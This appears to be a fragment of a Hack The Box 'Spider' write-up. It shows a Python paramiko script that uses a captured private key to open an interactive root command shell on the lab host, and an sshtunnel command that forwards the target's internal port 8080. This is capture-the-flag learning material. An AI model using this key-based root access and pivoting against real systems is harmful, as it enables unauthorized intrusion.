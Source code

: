 ```python
#from forward import forward_tunnel
import sshtunnel
'''
def Portfwd():
	with sshtunnel.open_tunnel(
		('spider.htb', 22),
		ssh_username="chiv",
		ssh_pkey="/home/kali/HackTheBox/Spider/id_rsa",
		#ssh_private_key_password="secret",
		remote_bind_address=('spider.htb', 22),
		local_bind_address=('0.0.0.0', 1234)
	) as tunnel:
		client = paramiko.SSHClient()
		client.load_system_host_keys()
		client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
		client.connect('spider.htb', 22)
		# do some operations with client session
		client.close()
	success('Portfwd successful')
'''


def Shell():
	ssh = paramiko.SSHClient()
	ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())

	user = 'root'
	host = 'spider.htb'

	k = paramiko.RSAKey.from_private_key_file('/home/kali/HackTheBox/Spider/root')
	ssh.connect(host,username=user,pkey=k)
	while(True):
		command = input("[+] Enter the command::")
		#print ("="*50, command, "="*50)
		success('Executing command')
		stdin, stdout, stderr = ssh.exec_command(command)
		print (stdout.read().decode())
		err = stderr.read().decode()
		if err:
			print (err)

#Portfwd()
Shell()
```
I tried to portfwd using this script but later I found the another way to port forward so I used that.
## Portfwd
```bash
kali@kali:~/HackTheBox/Spider$ python3 -m sshtunnel -K /home/kali/HackTheBox/Spider/id_rsa -L :1234 -R 127.0.0.1:8080 -p 22 -U chiv spider.htb


            Press <Ctrl-C> or <Enter> to stop!
			
```
I used the above method to portfwd using python module called sshtunnel.
# If you like the writeup give rep+.
